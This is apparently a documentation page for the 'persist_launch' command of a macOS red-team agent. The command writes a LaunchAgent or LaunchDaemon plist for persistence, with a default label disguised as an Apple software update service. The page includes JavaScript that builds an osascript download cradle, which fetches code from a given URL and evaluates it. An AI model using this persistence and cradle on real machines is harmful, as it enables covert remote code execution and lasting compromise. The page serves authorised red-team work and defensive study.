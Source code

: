 +++
title = "persist_launch"
chapter = false
weight = 100
hidden = false
+++

## Summary

Create a launch agent or daemon plist file and either automatically put it in ~/Library/LaunchAgents or if LocalAgent is false, save it to the specified location. If you want an elevated launch agent or launch daemon( /Library/LaunchAgents or /Library/LaunchDaemons), you either need to be in an elevated context already and specify the path or use something like shell_elevated to copy it there. 

If the first arg is 'apfell-jxa' then the agent will automatically construct a plist appropriate oneliner to use where arg1 should be the URL to reach out to for the payload. 
- Needs Admin: False  
- Version: 1  
- Author: @its_a_feature_  

### Arguments

#### args

- Description: List of arguments to execute in the ProgramArguments section of the PLIST  
- Required Value: True  
- Default Value: None  

#### KeepAlive

- Description: Restart the persistence if it crashes for some reason  
- Required Value: True  
- Default Value: True  

#### label

- Description: The label for the launch element  
- Required Value: True  
- Default Value: com.apple.softwareupdateagent  

#### LaunchPath

- Description: Path to save new plist to if LocalAgent is false  
- Required Value: False  
- Default Value: None  

#### LocalAgent

- Description: Should be a local user launch agent?   
- Required Value: True  
- Default Value: True  

#### RunAtLoad

- Description: Should the launch element be executed at load  
- Required Value: True  
- Default Value: True  

## Usage

```
persist_launch
```

## MITRE ATT&CK Mapping

- T1159  
- T1160  
## Detailed Summary

This function can create a variety of different Launch* elements depending on the flags. The most confusing piece if probably the arguments section:
- If the first argument is `apfell-jxa` then that indicates to the agent that you want to create a plist with a download cradle in it. In this case, the second argument should be the URL that contains the payload. This can be seen with the code below:
```JavaScript
if(config.hasOwnProperty('args') && config['args'].length > 0){
    if(config['args'][0] === "apfell-jxa"){
        // we'll add in an apfell-jxa one liner to run
        template += "<string>/usr/bin/osascript</string>\n" +
        "<string>-l</string>\n" +
        "<string>JavaScript</string>\n" +
        "<string>-e</string>\n" +
        "<string>eval(ObjC.unwrap($.NSString.alloc.initWithDataEncoding($.NSData.dataWithContentsOfURL($.NSURL.URLWithString('" +
        config['args'][1] + "')),$.NSUTF8StringEncoding)))</string>\n"
    }
    else{
        for(let i = 0; i < config['args'].length; i++){
            template += "<string>" + config['args'][i] + "</string>\n";
        }
    }
}
```
If the first argument isn't `apfell-jxa`, then you indicate to the agent that you have some other path + arguments you want to execute with the persistence mechanism (such as another binary or script you already dropped to disk).

